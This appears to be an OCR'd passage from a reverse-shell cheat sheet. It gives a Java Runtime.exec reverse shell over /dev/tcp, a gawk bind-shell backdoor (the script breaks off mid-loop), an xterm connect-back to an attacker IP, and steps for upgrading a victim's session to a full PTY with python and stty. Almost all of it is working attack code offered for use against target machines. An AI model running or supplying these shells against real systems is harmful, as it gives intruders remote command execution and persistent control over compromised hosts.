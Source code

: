 * Java
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

* gawk
``` sh
#!/usr/bin/gawk -f
BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
close(cmd)
```

* Xterm
``` sh
# run on target; connects back to attack machine IP via TCP port 6001
xterm -display 10.0.0.1:1

# start X-Server on attack machine; listens on TCP port 6001
Xnest :1

# you likely need to authorize the target to connect to you; do so with the below command on attack machine
xhost +<targetip>
```


## Shell Manipulation

* [Collection of Python full PTY shells](https://github.com/infodox/python-pty-shells)

* Python PTY
``` sh
# spawn the PTY
python -c "import pty; pty.spawn('/bin/bash')"

# use below to get tab auto completion
CTRL-Z
stty raw -echo
fg

# get size of your local terminal with `stty size`, then update victim session with
stty rows <num> cols <num>
```
